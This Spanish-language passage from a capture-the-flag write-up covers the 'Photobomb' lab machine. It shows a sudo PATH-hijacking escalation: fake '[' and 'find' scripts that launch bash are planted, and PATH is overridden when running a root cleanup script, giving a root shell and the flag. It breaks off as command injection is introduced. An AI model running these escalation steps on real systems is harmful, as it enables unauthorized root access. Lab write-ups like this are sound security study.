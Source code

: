 Lo que hace `enable -n` es desactivar ese built-in de Bash, forzándolo a utilizar el binario que se encuentre en el $PATH o directorio actual

{% highlight bash %}
> vzon@pwnedz0n: ~$ [ 1 -eq 1 ]
> vzon@pwnedz0n: ~$ echo $?
0
> vzon@pwnedz0n: ~$ cat '/home/vzon/['
#!/bin/bash
/bin/date
> vzon@pwnedz0n: ~$ enable -n [
> vzon@pwnedz0n: ~$ export PATH=""
> vzon@pwnedz0n: ~$ [ 1 -eq 1 ]
mié 15 feb 2023 15:12:29 -04
> vzon@pwnedz0n: ~$ 
{% endhighlight %}

Sabiendo esto, se vio que el script comprueba que el fichero `photobomb.log` no sea un enlace simbolico y que no este vacio usando el `[`, asi que podemos crear un fichero en nuestra ruta con el mismo nombre y agregarlo al principio de $PATH al ejecutarlo con sudo:

{% highlight bash %}
wizard@photobomb:/dev/shm$ cat '['
#!/bin/bash
bash
wizard@photobomb:/dev/shm$ chmod +x '['
wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/dev/shm#
{% endhighlight %}

Ahora simplemente tomamos la última flag

{% highlight bash %}
root@photobomb:~# ls
root.txt
root@photobomb:~# cat root.txt
3c7ab9a614efe315b0475***********
root@photobomb:~# 
{% endhighlight %}

<h2>EXTRA</h2>

Hablando de que el script no ejecuta `find` con la ruta absoluta, podrías hacer lo mismo que con `[`:

{% highlight bash %}
wizard@photobomb:/dev/shm$ cat find
#!/bin/bash
bash
wizard@photobomb:/dev/shm$ chmod +x find
wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/dev/shm#
{% endhighlight %}

La inyección de comandos ocurre por la siguiente parte del bloque de /printer:

